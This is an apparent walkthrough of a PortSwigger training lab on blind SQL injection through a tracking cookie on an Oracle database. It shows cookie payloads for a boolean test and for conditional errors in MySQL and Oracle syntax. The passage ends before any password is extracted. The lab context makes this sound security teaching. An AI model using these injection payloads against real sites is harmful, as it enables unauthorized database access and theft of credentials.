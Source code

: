 The database contains a different table called users, with columns called
username and password. You need to exploit the blind SQL injection vulnerability
to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

Hint: This lab uses an Oracle database. For more information, see the SQL
injection cheat sheet.

References:

-   https://portswigger.net/web-security/sql-injection/blind

-   https://portswigger.net/web-security/sql-injection/cheat-sheet

There is a SQL injection in the cookie. First we find we do not get errors with
the payload:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
COOKIE'+and'1'='1
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Cookie: TrackingId=9HCLCYU9VeK78knn'+and'1'='1
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/2e99c846df62a5b6cec2ce4b7f979736.png)

In MySQL it would be:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
COOKIE' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
COOKIE' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

But it is Oracle so we must use:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
COOKIE' AND (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE 'a' END FROM dual)='a
COOKIE' AND (SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE 'a' END FROM dual)='a
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

